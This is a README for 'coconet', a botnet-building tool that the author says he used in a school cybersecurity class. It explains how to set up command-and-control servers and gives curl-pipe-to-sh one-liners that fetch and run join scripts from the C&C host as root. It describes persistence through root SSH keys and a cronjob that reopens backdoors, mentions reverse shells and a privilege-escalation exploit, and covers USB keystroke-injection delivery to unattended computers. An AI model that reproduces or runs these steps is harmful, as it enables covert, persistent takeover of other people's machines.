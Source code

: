 <img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# coconet
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## Lessons Learned
Through the development of this totally-legal codebase, I learned a lot about networking, writing shell scripts, and simple security. I realized through this activity just how dangerous it can be for an attacker to get physical access to one's computer, and as such I've been far more careful henceforth to follow security precautions.

Though I'd never use an attack like this against anyone without permission, there are people who would. As such, I'd recommend that anyone who owns or uses a computer (especially a laptop or other portable device) build some healthy security habits:
* Obviously, password-protect your device, and require authentication to log in after sleep.
* Remove any delay between closure of your device and the your screen lock becoming active. This may annoy you if you accidentally close the computer, but it will protect you from mistakenly thinking your computer is secure enough to be left alone when it won't be for five minutes.
* Never, ever leave your computer unlocked and/or unattended. By the end of my Governor's School class, I was able to seize total remote control as root with only 12 seconds of typing. Imagine what someone with genuine malevolent intentions could do if you let them touch your computer.

## How it works
In brief, physical access can be used by an attacker to enter a simple command to download and run a shell script which will set up that computer as a new node in the network. This process involves enabling SSH and giving public key access to the root account, and adding a root cronjob to periodically download and run an update script from the Command & Control server (detailed below).

That update script will automatically reopen any backdoors which may have been closed since the last run. Code can be added to perform any task desired.

Thus, an operator may control nodes via SSH or by adding code for all nodes to run into update scripts. Reverse shells can also be used for finer control sans direct access network access for SSH.

### Command & Control
C&C is managed on ports `2042` & `2043` of a server.

Instructional scripts are served via HTTP on port `2042`. Run
```sh
python3 -m http.server 2042
```
from the `control` directory to make them available to nodes upon request.

A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into a file `nodes.txt`. Run
```sh
python3 server.py
```
after installing the dependencies listed in `requirements.txt` to listen for incoming data.

This process can be streamlined by using `./launch.sh` to automatically open two `tmux` windows with the appropriate commands.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a [Digispark ATTINY85](http://www.alibaba.com/product-detail/Digispark-kickstarter-development-board-ATTINY85-module_60411308561.html), though it can be easily modified to work with other Rubber Duck USBs based on Arduino.

During the cybersecurity class in which I developed `coconet`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
